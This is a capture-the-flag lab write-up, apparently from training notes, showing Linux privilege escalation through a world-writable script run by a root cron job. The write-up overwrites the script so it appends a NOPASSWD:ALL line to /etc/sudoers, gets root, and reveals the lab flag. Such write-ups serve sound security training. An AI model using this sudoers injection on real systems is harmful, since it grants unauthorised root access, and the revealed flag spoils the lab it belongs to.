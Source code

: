 # 🔬Cron Jobs

## Lab 1

> 🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
> * **Cron Jobs** Privilege escalation
> * Already logged on as `student` unprivileged user

```bash
whoami
groups student
cat /etc/passwd
crontab -l
```

> 📌 `student` user has no privileges and no scheduled cron jobs

![](.gitbook/assets/image-20230319190830023.png)

```bash
ls -l
	-rw------- 1 root root 26 Sep 23  2018 message
# "message" file has root permissions
```

### Cron Jobs Identify

* Look for all occurences of the path or the file, on the system

```bash
find / -name message
    /home/student/message
	find: '/var/lib/apt/lists/partial': Permission denied
    [...]
    /tmp/message
```

```bash
grep -rnw /usr -e "/home/student/message"
	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

* The file has been copied into the /tmp directory

```bash
cat /tmp/message
	Hey!! you are not root :(
```

* Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
	
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

### Privesc

* Every user account has read/write/execute permissions on the `copy.sh` script
* The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a_dding **student** to `sudoers` file_).
  * When the script is executed by `root` cron job (_every 1 min for this lab_), it will run commands with pivileged permissions
  * No text editors available in the lab

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

cat /usr/local/share/copy.sh
    #!/bin/bash
    echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```bash
sudo -l

    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

![sudo -l](.gitbook/assets/image-20230319192443704.png)

```bash
sudo su
whoami
	root
cd /root
cat flag
```

```bash
crontab -l
	*/01 * * * * sh /usr/local/share/copy.sh *
```

<details>

<summary>Reveal Flag: 🚩</summary>

`697914df7a07bb9b718c8ed258150164`

<img src=".gitbook/assets/image-20230319192539065.png" alt="" data-size="original">

</details>

***
